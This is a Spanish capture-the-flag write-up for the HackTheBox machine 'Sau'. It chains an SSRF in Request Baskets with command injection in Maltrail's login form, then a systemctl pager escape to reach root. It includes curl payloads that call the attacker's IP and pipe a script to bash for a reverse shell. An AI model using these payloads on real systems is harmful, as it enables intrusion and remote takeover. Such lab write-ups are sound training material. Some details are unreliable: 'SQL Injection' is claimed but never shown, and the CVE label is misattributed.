 ```yaml
---
title: HackTheBox - Sau
author: cotes
date: 2023-09-07 17:51:00 +0800
categories: [Writeup, HackTheBox, Easy]
tags: [Linux, SSRF, 'Command Injection']
math: true
mermaid: true
image:
  path: /assets/images/HTB/Easy/Sau/logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Sau Machine Logo
---
```


Máquina Linux de nivel **Easy** de HackThBox.

Técnicas usadas: **SQL Injection, SSRF, Command Injection**

### Fase de Reconocimiento 🧣

a. Enumeramos los puertos que están abiertos en la **`Máquina Sau`**

* **`nmap -p- -sS -Pn -n <IP> -oG puertos`**

    ![](/assets/images/HTB/Easy/Sau/01-ports.png)

b. Vemos las versiones de los servicios que se están ejecutando en los puertos.

* **`nmap -p<Ports> -sC  <IP> -oN versiones`**

    ![](/assets/images/HTB/Easy/Sau/02-versions.png)

    > Tenemos 2 puertos filtrados **`80,8338`**

c. Visitamos la página web

![](/assets/images/HTB/Easy/Sau/03-web.png)

* Al buscar algo relacionado con **`Request Baskets`** veremos que existe un **`SSRF`**, esto nos servirá para ver los servicios de los **puertos filtrados** 

### **Configurando SSRF** 🦈

1. Creamos un nuevo **`basket`** y lo abrimos

    ![](/assets/images/HTB/Easy/Sau/04-step.png)

2. Lo configuramos para que todo el tráfico que enviemos a este **`basket`** sea redirigido al puerto **`80`** interno de la máquina

    ![](/assets/images/HTB/Easy/Sau/04-step2.png)

3. Si ahora visitamos el **basket** veremos la página web del puerto **80** (Puerto Filtrado)

    ![](/assets/images/HTB/Easy/Sau/05-ssrf.png)

d. El servicio es **`Maltrail (v0.53)`**, y al buscar por vulnerabilidades encontramos [CVE:2023-27163](https://www.exploit-db.com/exploits/51676), es una inyección de comando

```bash
> curl 'http://<IP Sau>:55555/[basket]/login' --data 'username=;`curl http://<tun0 IP>:8081`'
--------------------------------------------------------------------------------------------------------------
> nc -lvnp 8081
listening on [any] 8081 ...
connect to [10.10.14.174] from (UNKNOWN) [10.10.11.224] 39976
```

c. Nos enviamos una reverse shell

```bash
> curl 'http://<IP Sau>:55555/08cexes/login' --data 'username=;`curl http://<tun0 IP>:4444|bash`'
```

![](/assets/images/HTB/Easy/Sau/06-shell.png)


### Escalada de Privilegios 💹

a. Listamos privilegios a nivel de sudoers

```bash
puma@sau:/opt/maltrail$ sudo -l

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```

b. Ejecutamos el script como root y una vez que el servicio se despliege teclearemos **`!/bin/bash`**

```bash
puma@sau:/opt/maltrail$ sudo /usr/bin/systemctl status trail.service
```

![](/assets/images/HTB/Easy/Sau/07-bash.png)